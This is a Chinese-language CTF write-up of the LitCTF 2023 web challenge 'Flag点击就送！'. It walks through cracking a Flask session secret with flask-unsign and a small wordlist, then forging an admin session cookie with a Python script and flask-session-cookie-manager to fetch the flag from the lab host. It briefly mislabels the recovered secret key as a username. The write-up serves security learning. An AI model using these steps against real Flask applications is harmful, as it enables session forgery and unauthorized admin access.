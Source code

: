 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3872
date: 2024-11-29
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true








---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第21题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称       | 题目方向 | 难度 |
| -------- | -------------- | -------- | ---- |
| 3872     | Flag点击就送！ | Web      | 1    |

<!-- more -->

# 题目21：Flag点击就送！

### 题目描述：大型Flag赠送活动开始啦，不过只有管理员才能拿到

### 考点：Flask  session伪造

### 预期解：

我们进入靶机后，看到了提示“欢迎参加LitCTF，告诉我你的名字吧”，我们随便输入一个名字，弹出一个按钮“拿flag”，点击以后提示“只有管理员才能拿flag耶”。

此时我们返回初始页面，尝试输入admin或者root，发现都不可以，所以我们准备使用工具进行爆破，这里用到的工具是Python，安装了flask-unsign[wordlist]的库，推荐使用清华源进行安装。具体安装过程不多做介绍。

默认是我们有了一个字典文件，字典内容为

```
LitCTF2023
LitCTF
123456
```

我们使用如下命令来执行爆破命令

```
flask-unsign --unsign --cookie "eyJuYW1lIjoiMTIzIn0.Z0mhXQ.CjDOrMBNmg28PtyaZGGdtE1MSlA" -w 字典路径 --no-literal-eval
```

这里的cookie是打开F12后，在Application里面，找到Cookies，看到了一个session的cookie，复制它的值

![image-20241129191712497](/img/essay/image-20241129191712497.png)

在执行命令后，我们得到了如下结果，可以看到应该是LitCTF才是我们想要的用户名。

```
(comvision) C:\Users\19854>flask-unsign --unsign --cookie "eyJuYW1lIjoiMTIzIn0.Z0mhXQ.CjDOrMBNmg28PtyaZGGdtE1MSlA" -w C:\Users\19854\Desktop\pass.txt --no-literal-eval
[*] Session decodes to: {'name': '123'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 3 attempts
b'LitCTF'
```

确认LitCTF就是用户名以后，我们用一把梭工具进行伪造

```
import requests
import string
import subprocess

SECRET_KEY = "LitCTF"

cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', '{\'name\': \'admin\'}', '--secret', SECRET_KEY])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://node4.anna.nssctf.cn:28088/flag', cookies=cookie)

print(response.text)
```

伪造的方式多种多样，比如使用[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

具体使用方法如下

```
python3 flask-session-cookie-manager3.py decode -c "session值" (-s "key值")
python3 flask-session-cookie-manager3.py encode -s "key值" -t "我们需要伪造的值"
```

```
python3 flask-session-cookie-manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'
# eyJuYW1lIjoiYWRtaW4ifQ.ZOBwTg.fCkX986VBbFDKMaipQ5QjHJAkQg
```

此时再访问`/flag`，将当前页面cookie改为伪造的值，刷新页面即可看到flag